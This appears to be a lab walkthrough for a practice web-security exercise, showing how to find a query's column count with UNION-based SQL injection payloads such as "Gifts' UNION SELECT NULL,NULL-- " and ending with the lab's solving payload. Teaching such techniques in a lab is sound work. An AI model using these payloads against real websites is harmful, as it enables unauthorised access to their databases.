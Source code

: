 We'll now test how many columns the original query returns by trying different numbers of `NULL`s:

### 🔁 Try These Payloads One at a Time:

```
Gifts' UNION SELECT NULL-- 
```

➡️ If you get an error like "number of columns does not match", try:

```
Gifts' UNION SELECT NULL,NULL-- 
```

Still an error? Keep adding more `NULL`s:

```
Gifts' UNION SELECT NULL,NULL,NULL-- 
```

🔁 Continue until the page **loads normally and displays additional content (like null values)**.



### ✅ Example That Works:

Once you find the correct number, say **2 columns**, your payload will look like:

```
Gifts' UNION SELECT NULL,NULL-- 
```

You should see an extra row appear on the page, possibly showing something like:

```
NULL | NULL
```

Or maybe even just an extra blank row — this confirms the query returns **2 columns**.


✅ So, the original query returns **2 columns**.



## 🧩 Why Use `NULL`?

Because:
- `NULL` works with **any data type**
- It avoids errors due to incompatible types
- It helps us **match the structure** without knowing what the original query does



## 🎯 Result

To solve the lab:

Use this payload:
```
Gifts' UNION SELECT NULL,NULL-- 
```
